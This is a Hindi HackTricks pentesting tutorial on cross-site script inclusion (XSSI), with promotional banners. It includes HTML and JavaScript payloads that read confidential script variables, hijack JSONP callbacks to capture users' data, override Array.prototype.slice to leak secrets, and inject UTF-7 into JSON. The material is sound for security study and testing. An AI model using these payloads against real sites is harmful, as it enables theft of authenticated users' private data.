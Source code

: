 # XSSI (क्रॉस-साइट स्क्रिप्ट समावेश)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें और PRs सबमिट करें** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **को**

</details>

#### जानकारी [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414) से ली गई थी

## मूलभूत जानकारी

XSSI एक ऐसे सुरक्षा दुरुपयोग को निरूपित करता है जो यह उपयोग करता है कि, जब एक **संसाधन `script` टैग का उपयोग करके समावेश किया जाता है, SOP लागू नहीं होता है**, क्योंकि स्क्रिप्ट को क्रॉस-डोमेन में समावेश किया जा सकना चाहिए। इसलिए, एक हमलावर ऐसा कर सकता है कि वह सभी कुछ पढ़ सकता है जो **`script` टैग** का उपयोग करके समावेश किया गया था।

यह विशेष रूप से रुचिकर होता है जब यह डाइनामिक जावास्क्रिप्ट या JSONP के साथ संबंधित होता है, जब ऐसे संबंधित संसाधन का अनुरोध करते समय कुकीज़ जैसी वातावरण-अधिकारिता जानकारी का उपयोग किया जाता है। कुकीज़ एक अलग होस्ट से संसाधन का अनुरोध करते समय समावेश किए जाते हैं।

### प्रकार

1. स्थिर जावास्क्रिप्ट (नियमित XSSI)
2. स्थिर जावास्क्रिप्ट, जो केवल प्रमाणीकरण के समय ही पहुंचने योग्य है
3. गतिशील जावास्क्रिप्ट
4. गैर-जावास्क्रिप्ट

## नियमित XSSI

निजी जानकारी एक वैश्विक एक्सेस योग्य JS फ़ाइल में स्थित होती है, आप फ़ाइलें पढ़कर, खोज करके या रेजेक्स का उपयोग करके इसे आसानी से पता लगा सकते हैं।\
इसे शोषण करने के लिए, केवल निजी जानकारी वाले स्क्रिप्ट को दुष्ट सामग्री में समाविष्ट करें:
```markup
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
## डायनामिक-जावास्क्रिप्ट-आधारित-एक्सएसएसआई और प्रमाणीकृत-जावास्क्रिप्ट-एक्सएसएसआई

**जब एक उपयोगकर्ता इसे अनुरोध करता है, तो स्क्रिप्ट में गोपनीय जानकारी जोड़ी जाती है।** इसे आसानी से खोजा जा सकता है जब आप अनुरोध को **कुकीज के साथ और बिना कुकीज के** भेजते हैं, यदि **अलग-अलग जानकारी** प्राप्त होती है, तो गोपनीय जानकारी शामिल हो सकती है। इसे स्वचालित रूप से करने के लिए आप बर्प एक्सटेंशन का उपयोग कर सकते हैं: [https://github.com/luh2/DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

यदि जानकारी एक ग्लोबल वेरिएबल में संग्रहीत है, तो आप पिछले मामले के लिए उसी कोड का उपयोग करके इसे शोषण कर सकते हैं।\
यदि गोपनीय डेटा JSONP प्रतिक्रिया के भीतर भेजा जाता है, तो आप जानकारी प्राप्त करने के लिए निष्पादित फ़ंक्शन को ओवरराइड कर सकते हैं:
```markup
<script>
//The confidential info will be inside the callback to angular.callbacks._7: angular.callbacks._7({"status":STATUS,"body":{"demographics":{"email":......}}})
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```
या आप JSONP प्रतिक्रिया द्वारा निष्पादित करने के लिए तैयार की गई फ़ंक्शन को सेट कर सकते हैं:
```markup
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
यदि एक चर ग्लोबल नेमस्पेस में स्थित नहीं होता है, तो कभी-कभी इसे _प्रोटोटाइप तंग करने_ का उपयोग करके भी उत्पन्न किया जा सकता है। प्रोटोटाइप तंग करने का उपयोग जावास्क्रिप्ट के डिजाइन का दुरुपयोग करता है, अर्थात जब कोड का अनुवाद किया जाता है, तो जावास्क्रिप्ट प्रोटोटाइप चेन को ट्रावर्स करके बुलाए गए प्रॉपर्टी को ढूंढता है। निम्नलिखित उदाहरण [डायनामिक जावास्क्रिप्ट के अप्रत्याशित खतरों](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf) से निकाला गया है और यह दिखाता है कि एक प्रासंगिक फ़ंक्शन को ओवरराइड करके और `this` तक पहुंच को लीक करके, एक ग्लोबल नहीं चर भी लीक किया जा सकता है।
```javascript
(function(){
var arr = ["secret1", "secret2", "secret3"];
// intents to slice out first entry
var x = arr.slice(1);
...
})();
```
वास्तविक कोड में `slice` नामक `Array` के प्रकार से हमें दिखाई देने वाले डेटा तक पहुंच होती है। एक हमलावर, पिछले अनुच्छेद में वर्णित करने के तरीके से, `slice` को अधिलेखित कर सकता है और रहस्यों को चुरा सकता है।
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
सुरक्षा शोधकर्ता [सेबास्टियन लेकीज](https://twitter.com/slekies) हाल ही में अपनी [वेक्टरों](http://sebastian-lekies.de/leak/) की सूची को अपडेट किया।

## गैर-स्क्रिप्ट-XSSI

टाकेशी तेराडा ने अपने पेपर [पहचान आधारित XSSI हमलों](https://www.mbsd.jp/Whitepaper/xssi.pdf) में एक और प्रकार के XSSI का वर्णन किया है। उन्होंने, अन्य के बीच, `script` टैग में स्रोत के रूप में CSV फ़ाइलों को शामिल करके, डेटा को चर और फ़ंक्शन नामों के रूप में उपयोग करके, गैर-स्क्रिप्ट फ़ाइलों को क्रॉस-ओरिजिन लीक करने में सक्षम थे।

2006 में पहला सार्वजनिक दस्तावेजीकृत XSSI हमला हुआ था। जेरेमियाह ग्रोसमैन की ब्लॉग पोस्ट [GMail का उपयोग करके उन्नत वेब हमला तकनीकें](http://jeremiahgrossman.blogspot.ch/2006/01/advanced-web-attack-techniques-using.html) में एक XSSI का वर्णन किया गया है, जिसने `Array` कंस्ट्रक्टर को ओवरराइड करके एक गूगल अकाउंट के पूरे पता पुस्तिका को पढ़ने में सक्षम बनाया।

2007 में जो वॉकर ने [JSON वास्तव में लोग सोचते हैं वह सुरक्षित नहीं है](http://incompleteness.me/blog/2007/03/05/json-is-not-as-safe-as-people-think-it-is/) प्रकाशित किया। उन्होंने एक ही विचार का उपयोग करके उन एरे में स्थित JSON को चुराने का प्रयास किया।

अन्य संबंधित हमलों में UTF-7 कोडिंग को JSON में इंजेक्ट करके JSON प्रारूप से बचने का प्रयास किया गया। इसे गैरेथ हेयस, [हैकवर्टर](https://hackvertor.co.uk/public) के लेखक, ने 2011 में प्रकाशित ब्लॉग पोस्ट [JSON हिजैकिंग](http://www.thespanner.co.uk/2011/05/30/json-hijacking/) में वर्णित किया है। एक त्वरित परीक्षण में, यह माइक्रोसॉफ्ट इंटरनेट एक्सप्लोरर और एज में अभी भी संभव था, लेकिन मोजिला फ़ायरफ़ॉक्स या गूगल क्रोम में नहीं।

UTF-7 के साथ JSON:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```
आक्रमक की पेज में JSON शामिल करें
```markup
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करना चाहिए? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFT संग्रह**](https://opensea.io/collection/the-peass-family)
* [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** **अनुसरण** **करें।**
* **अपने हैकिंग ट्रिक्स को** [**hacktricks रेपो**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को PR जमा करके साझा करें।**

</details>
